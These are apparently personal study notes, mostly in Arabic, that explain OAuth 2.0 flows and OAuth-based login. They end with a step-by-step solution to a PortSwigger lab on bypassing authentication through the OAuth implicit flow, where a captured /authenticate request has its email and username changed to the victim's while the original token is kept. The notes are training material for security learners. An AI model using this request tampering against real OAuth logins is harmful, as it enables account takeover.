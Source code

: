 # OAauth         

* <details>
     <summary>What is OAuth and how it work?</summary>

  # 🚀 شرح OAuth 2.0 ببساطة
  
  ## ما هو OAuth؟
  - **OAuth** عبارة عن **إطار عمل (Framework) للتفويض Authorization**.  
  - فكرته الأساسية:  
    التطبيق (مثلاً موقع ألعاب) ممكن يطلب صلاحيات محدودة من حسابك في خدمة تانية (زي Google أو Facebook) **من غير ما يعرف الباسورد بتاعك**.  
  - ده بيدي للمستخدم تحكم: يقدر يوافق يشارك بيانات معينة (زي قائمة أصدقائه) من غير ما يدي صلاحيات كاملة أو يسلّم حسابه بالكامل.  
  
  📌 **مثال**: تطبيق عايز يعمل "Find Friends" → يطلب منك صلاحية الدخول على الـ contacts في Gmail.  
  
  ---
  
  ## الفايدة الأكبر
  - بدل ما المستخدم يدخل الباسورد بتاعه في مواقع كتير → يدخل مرة واحدة في Google/Facebook.  
  - الموقع التاني ياخد **Access Token** يقدر يستخدمه عشان يجيب البيانات المسموح بيها فقط.  
  
  ---
  
  ## 👥 أطراف اللعبة في OAuth 2.0
  1. **Client Application**: الموقع اللي عايز يستخدم بياناتك (مثلاً موقع يشغّل خدمة).  
  2. **Resource Owner**: المستخدم نفسه (إنت).  
  3. **OAuth Service Provider**: الجهة اللي عندها بياناتك (مثلاً Google, Facebook).  
     - فيها **Authorization Server** (اللي بيأكّد الهوية ويطلع Access Token).  
     - وفيها **Resource Server** (اللي فيه الـ API والبيانات).  
  
  ---
  
  ## 🔄 خطوات العملية (Simplified Flow)
  1. **Client App** يطلب منك تصريح: "ممكن أخد صلاحية X من حسابك؟".  
  2. أنت بتروح على صفحة Google/Facebook، تعمل Login وتوافق على الطلب.  
  3. لو وافقت: السيرفر (Google) يدي التطبيق **Authorization Code** (أو Access Token على طول حسب نوع الـ Flow).  
  4. التطبيق يستخدم الكود عشان ياخد **Access Token** من الـ Authorization Server.  
  5. التطبيق يستخدم الـ Token ده عشان يكلم الـ Resource Server ويجيب البيانات اللي إنت وافقت عليها.  
  
  ---
  
  ## 📚 أنواع الـ Flows (Grant Types)
  - **Authorization Code Flow** (الأكثر شيوعًا – آمن):  
    - التطبيق ياخد **Code** مؤقت → يبدّله بـ **Access Token** من السيرفر.  
    - ميزة: التوكين مش بيعدي عبر الـ URL مباشرة (أأمن).  
  
  - **Implicit Flow** (قديم – أقل أمان):  
    - التطبيق بياخد **Access Token** مباشرة في الـ URL.  
    - مشاكل: ممكن يتسرب في الـ logs أو الـ referrer.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth مش نظام Authentication (هو أساسًا **Authorization**).  
  - لكنه بيستخدم بشكل واسع في **Social Login** (تسجيل الدخول بجوجل/فيسبوك).  
  - بيوفر **أمان + سهولة**: المستخدم ما يشاركش كلمة السر، والتطبيق ياخد صلاحيات محدودة.  
  - أهم شيء: نفهم الـ Flows (Authorization Code / Implicit) قبل ما ندخل في ثغراته.  
  
  
  
  
  ---
  ---
  
  # 🔑 OAuth كـ Authentication (تسجيل دخول)
  
  ## ما الفرق عن OAuth الأصلي؟
  - **الفكرة الأصلية لـ OAuth**: كان معمول علشان *التفويض* (Authorization) → يعني السماح لتطبيق معيّن ياخد صلاحيات محدودة من حسابك.  
  - **لكن مع الوقت**: بدأوا يستخدموه كمان في *المصادقة* (Authentication) → تسجيل الدخول بحساب خارجي زي Google أو Facebook.  
  
  📌 يعني بدل ما تسجّل في الموقع وتعمل Username/Password جديدة، تختار "Login with Google".  
  
  ---
  
  ## ⚙️ إزاي بيشتغل كـ Authentication؟
  الـ Flow الأساسي شبه الـ OAuth العادي، لكن الفرق في **إزاي الـ Client App بيستعمل البيانات**:  
  
  1. **المستخدم** يختار "تسجيل الدخول باستخدام حساب فيسبوك/جوجل".  
  2. **Client App** يطلب من خدمة OAuth (مثلاً Google) بيانات تعريفية عن المستخدم (زي الـ email).  
  3. بعد ما السيرفر يدي **Access Token** → الـ Client App يستخدمه ويطلب بيانات المستخدم من الـ **Resource Server** (عادة من endpoint زي `/userinfo`).  
  4. السيرفر يبعت البيانات (مثلاً: email = user@gmail.com).  
  5. الـ Client App يستخدم البيانات دي بدال الـ Username/Password علشان يعرّفك في السيستم.  
     - أحيانًا الـ Access Token نفسه بيتعامل كأنه "بديل للباسورد" طول ما هو صالح.  
  
  ---
  
  ## 👀 من منظور المستخدم
  - الشكل النهائي بيشبه **SSO (Single Sign-On)** اللي معمول بـ SAML.  
  - المستخدم بيضغط زر واحد → يفتح صفحة خارجية (Google) → يوافق → يرجع للموقع وهو متسجّل دخول.  
  
  ---
  
  ## 🧪 التدريب العملي (Lab Example)
  - لما تعمل Login بالـ Social Media في الـ Lab على PortSwigger، هتشوف:  
    - **Redirects** رايحة وجاية بين الموقع وبين السيرفر (Google/Facebook).  
    - **Access Token** بيطلع من السيرفر.  
    - الموقع بيطلب `/userinfo` عشان يجيب بياناتك.  
  
  > في المعمل، تقدر تجرب تعمل Login بحساب الاختبار: **wiener:peter** وتشوف كل الـ Flow ده في Burp Proxy.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth اتطور وبقى وسيلة تسجيل دخول (Authentication) مش بس تفويض.  
  - الـ Client App مش بياخد الباسورد بتاعك → بياخد Access Token → وبيروح يجيب بيانات من السيرفر (زي الـ email) → ويدخلك بيها.  
  - النتيجة: Login سهل وسريع + أمان أعلى (ما فيش مشاركة للباسورد).  
  - لكن 👀 هنا ييجي دور الثغرات اللي ممكن تحصل أثناء العملية (هنشوفها في الـ Labs).  
  
  
  

  </details>






# OAuth authentication Labs 




<details>
  <summary>Lab: Authentication bypass via OAuth implicit flow</summary>

1. login with **`wiener : peter`**
2. go to ``http history`` in burp

```
POST /authenticate HTTP/2
Host: 0a4d00a404a21971801a6239001b004c.web-security-academy.net
Cookie: session=ysuWtiBhdYmkXnGRsG3NrvyppQVIhu0w
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


{
  "email":"wiener@hotdog.com",
  "username":"wiener",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```
   
`change jsaon content to:`

```
{
  "email":"carlos@carlos-montoya.net",
  "username":"carlos",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```

> after that click **`show response in browser`**

<img width="752" height="51" alt="image" src="https://github.com/user-attachments/assets/7f8e2109-d3c0-46bb-9ca6-d77a8a8b9578" />

<img width="1390" height="536" alt="image" src="https://github.com/user-attachments/assets/9a8e8ece-b078-4b45-8b0e-a0b1413996c2" />


 
</details>














































 
